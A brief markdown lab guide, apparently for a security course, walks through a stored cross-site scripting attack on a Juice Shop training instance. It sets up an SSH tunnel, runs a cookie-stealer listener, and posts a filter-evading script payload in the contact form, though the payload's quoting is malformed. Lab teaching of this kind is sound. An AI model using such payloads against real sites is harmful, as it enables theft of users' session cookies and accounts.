 # XSS Guide

## Set up:

1. Connect to kaliVM and forward the Juice shop to your localhost:

	```ssh -i <PATH_TO_SSH_KEY> -L <ONE_PORT_OF_GIVEN_PORTS>:<KALI_VM_LOCAL_IP>:3000 <USER_NAME>@130.238.10.236```
2. Start the *3rd_party_cookie_stealer.py* program:

	```python3 3rd_party_cookie_stealer.py```
3. Post the following comment in the section *contact us*:

	```<<script> foo</script>script>document.write(' <img src="http://localhost:3000/cookiestealer /> ');</script>script>```	

On the terminal running *3rd_party_cookie_stealer.py* the cookies should be printed
